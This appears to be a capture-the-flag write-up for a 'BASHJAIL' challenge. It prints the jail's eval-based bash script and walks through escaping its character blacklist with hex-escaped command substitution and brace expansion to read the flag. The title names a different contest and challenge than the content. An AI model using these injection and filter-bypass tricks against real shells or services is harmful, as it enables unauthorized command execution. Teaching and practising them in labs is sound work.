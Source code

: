 #Insomni'hack CTF 2016 : PCAPBleeding

**Category:** JAIL |
**Points:** 300 |
**Solves:** 7% |
**Description:** 

> BASHJAIL

---

##Code and Write-up

Here is the code :

```bash
#!/bin/bash
. /home/game/.omg

_start(){
    echo "Hi. U got $TIME second(s) to do this. Don't fap"
    sleep "$TIME"
    _quit
}

_quit(){
    echo -e '\n\033[0;31mA breton is faster than u. Bye\033[0m'
    kill -9 "$PID" &>/dev/null
    exit
}

_trapped(){
    kill "$sPID"
    local TIME="$((RANDOM%1337))"
    echo -e "Poor guyz. U wanna leave this GAME ?\nStay with me for "$TIME"s <3.\nTake a drink? For milk, ask @saxx. For beer, ask @kaluche"
    sleep "$TIME"
}


_is_hacker_or_breton(){
        [[ $1 == *[02abcdefghijklmnopqrstuvwyzABDEFGHIJKLMNOPQRSTUVWXYZ';''&'' ''"''*''`''?''.''<''>']* ]] && return 0
        return 1
}

PID="$$"
echo "PIIIID : $PID"
trap _trapped SIGINT SIGTERM
TIME=5 ; _start & sPID="$!" ; sleep 0.01

while true; do
    echo -ne "\033[32mEnter a cmd > \033[0m"
    read cmd
    _is_hacker_or_breton "$cmd" && {
            echo -e '\033[0;31mDont hack me !\033[0m'
            exit 1
        } || {
            out="echo Your command is: $cmd"
            eval "$out"
    }
done
```

Here, the .omg file : [.omg](https://github.com/notfound-404/BREIZHCTF2K16/blob/master/BASHJAIL/omg)

The first thing to do, was to ^c to kill the timeout, and to get a small sleep.
You can see it's RANDOM.

```
Poor guyz. U wanna leave this GAME ?
Stay with me for 1182s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 881s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 906s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 600s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 8s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
```

Well, 8s is quiet small.
Now, you can easily find unfiltered chars, by testing them manually.
The following wasn't filtered :

```
Enter a cmd > $'x13456789{}()\\
Enter a cmd >
```

Knowing that, and knowing a little bash, you can try a `ls` :

```
Enter a cmd > $'\\x6C\\x73'
Your command is: ls
```

Ok, the command is not filtered but not executed ...
Well, try to executed is using `$(cmd)`

```
Enter a cmd > $($'\\x6C\\x73')
Your command is: flag jail.sh
```

Good, the command was executed.
You can see 2 files, `flag` and `jail.sh`

Let's try to `cat flag` :
```
Enter a cmd > $($'\\x63\\x61\\x74\\x20\\x66\\x6C\\x61\\x67')
Dont hack me !
```

Oh, right. `\\x20` contains filtered chars.<br>
If you were stuck here, you just had to Google : `bash commands without spaces`<br>
(https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)

An example :

```bash
jonojono@apollo ~ $ {echo,hello,world}
hello world
```

We know that `{}` are not filtered, let's try this :
```
Enter a cmd > $({$'\\x63\\x61\\x74',$'\\x66\\x6C\\x61\\x67'})
Your command is: BRZHCTF{...}
```


<br>
Pwned.<br>
__Flag__ : BRZHCTF{Yes_I_allow_u_to_hate_me...I_am_Notfound_and_I_love_b4sh.I_also_love_long_flag,saxxounette_and_kalouchi_and_the_others_trollz}

Small asciicast : <br>
[![Alt text for your video](http://pix.toile-libre.org/upload/original/1462182542.png)](https://asciinema.org/a/enbpmktycn237ecslojre4f4q#)

Enjoy,<br>
\- [Notfound](https://www.notfound.ovh)

